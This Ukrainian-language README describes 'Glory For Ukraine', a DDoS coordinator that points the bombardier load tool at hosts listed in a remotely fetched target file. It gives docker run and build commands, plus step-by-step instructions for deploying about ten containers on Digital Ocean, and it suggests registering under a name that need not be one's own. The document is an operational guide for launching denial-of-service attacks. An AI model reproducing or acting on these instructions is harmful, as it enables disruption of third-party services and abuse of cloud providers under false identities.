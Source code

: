 # Glory For Ukraine

DDOS координатор, використовуючий bombardier на один з хостів указаний в scheduled_targets.json, скачаний з https://gloryforukraine.pages.dev/scheduled_targets.json

## Як використати

Запуск через докер: `docker run --env SCHEDULED_TARGETS_URL=https://gloryforukraine.pages.dev/scheduled_targets.json --env PARALLEL_FACTOR=5 --rm -it archdev/gloryforukraine`

Запуск через білд: 
- install NodeJS 16+
- git clone
- cd gloryforukraine
- npm i
- `./scripts/launch.sh` or `.\scripts\launch.bat`

# Як засетапи Gloryforukraine на Digigal Ocean App Platform

1. Зареєструйте аккаунт на Digital Ocean:
    [Посилання за рефералом](https://m.do.co/c/aa9c8e1fc61f) - дає $100 на рахунок
    По особистим данним - будь яке ім'я (можна не своє) АЛЕ: робочий імейл до якого у вас є доступ - він потрібен щоб залогінитись по лінку який прийде вам на імейл (2FA)
    Також вам потрібна робоча банківська карта (укр карти Моно на Привата раніше працювали, віртуальні карти теж UK банків теж працюють)
    (Гроші НЕ БУДУТЬ зніматись відразу, лише через місяц)
2. Створіть новий апчик в Create > Apps
3. Виберіть Docker Hub
4. в Image введіть: `archdev/gloryforukraine`, tag - залишіть пустим (`latest`) 
5. ОБОВ'ЯЗКОВО: Type > **Worker** (по замовчуванню там Web Service)
6. Також додайте `Environment Variables`: `SCHEDULED_TARGETS_URL=https://gloryforukraine.pages.dev/scheduled_targets.json` та `PARALLEL_FACTOR=5`
7. Виберіть Регіон - можна Європу або Азію - будь який
8. Finalise and Launch - виберіть аккаунт Pro - і в Containers: Pro - штук 10 має вистачити
